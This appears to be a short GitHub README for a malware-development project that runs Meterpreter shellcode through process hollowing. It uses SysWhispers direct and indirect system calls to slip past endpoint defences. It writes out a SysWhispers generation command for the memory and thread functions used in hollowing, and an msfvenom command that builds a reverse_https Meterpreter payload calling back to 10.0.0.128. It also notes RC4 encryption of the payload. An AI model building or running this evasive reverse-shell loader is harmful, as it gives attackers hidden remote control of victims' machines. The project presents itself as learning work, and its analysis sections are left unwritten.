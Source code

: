 # Overview
HUGE thank you to the Syswhipsers project and the MALDEV Academy team for getting me excited about these kinds of projects and in helping me work on this project!

The `Syswhispers` branch is the syswhipers implementation

The `Indirect` branch is my attempt at an indirect systemcall implementation to run meterpreter shellcode via process hollowing

# Misc

Generating the syswhipers code:
```
python3 syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtResumeThread,NtWriteVirtualMemory,NtAllocateVirtualMemory,NtProtectVirtualMemory,NtReadVirtualMemory -o /home/noah/Desktop/MALDEV/modules/ProcessHollowing/syswhispers3_files -v
```
Payload:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.0.0.128 lport=443 exitfunc=thread -f raw > payload.raw
```

Payload into HellShell Rc4 decryptor using `SystemFunction032`

# Analysis

I'd like to do some more indepth analysis at a later point but I also included API calls of the Syswhispers implementation comparing direct & indirect systemcalls.

# Explanation

Coming soon.
